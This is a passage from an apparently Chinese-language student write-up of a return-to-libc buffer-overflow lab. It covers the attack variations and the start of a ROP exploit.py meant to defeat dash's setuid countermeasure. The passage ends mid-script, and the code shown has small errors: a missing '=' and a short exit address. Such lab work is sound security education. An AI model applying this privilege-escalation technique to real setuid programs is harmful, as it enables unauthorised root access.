 <img src="https://i.loli.net/2021/07/14/dAs5V9c7vYnq42k.png" alt="image-20210713163255852" style="zoom:50%;" />

>  **Attack variation 1:** Is the `exit()` function really necessary? Please try your attack without including
> the address of this function in badfile. Run your attack again, report and explain your observations.

根据 task 要求，我们将 exploit.py 中 exit 的部分注释掉，然后重新运行。

<img src="https://i.loli.net/2021/07/14/ChIZ95NXdQeomSA.png" alt="image-20210713164335438" style="zoom:50%;" />

发现可以正常提权，但退出时会崩溃。

> **Attack variation 2:** After your attack is successful, change the file name of retlib to a different name,
> making sure that the length of the new file name is different. For example, you can change it to newretlib.
> Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does
> not succeed, explain why.

根据 task 要求，我们先将编译后的二进制文件改名为 rrtlib，提权成功

<img src="https://i.loli.net/2021/07/14/FlWpG8SdL9EVO5U.png" alt="image-20210713164933154" style="zoom:50%;" />

在改为 newretlib，提权不成功

<img src="https://i.loli.net/2021/07/14/spX1zv8Yc4dN93Q.png" alt="image-20210713165133449" style="zoom:50%;" />

由此可见，这与程序名的长度有关。

# Task 4: Defeat Shell’s countermeasure

改回链接

```bash
$ sudo ln -sf /bin/dash /bin/sh
```

为了使攻击更加方便，我们直接使用 ROP。首先获取所需要的 libc 函数地址

<img src="https://i.loli.net/2021/07/14/mFiaHNz8rPoGqUZ.png" alt="image-20210714042907866" style="zoom:50%;" />

然后 `disas bof` 获取 `bof()` 函数返回地址

<img src="https://i.loli.net/2021/07/14/S6yvmTG7nuCxLFX.png" alt="image-20210714043032853" style="zoom:50%;" />

同时我们还有 retlib 打印出的 `bof()` 函数 ebp 位置和 MYSHELL 地址，根据这些修改 exploit.py

```python
# !/usr/bin/python3
import sys

def tobytes (value):
    return (value).to_bytes(4, byteorder= 'little')

content bytearray(0xaa for i in range (24))

sh_addr = 0xffffd3e3
leaveret = 0x565562ce
sprintf_addr = 0xf7e20e40
setuid_addr = 0xf7e99e30
system_addr = 0xf7e12420
exit_addr = 0xf7e4f80
ebp_bof = 0xffffcd58

# setuid()'s 1st argument
```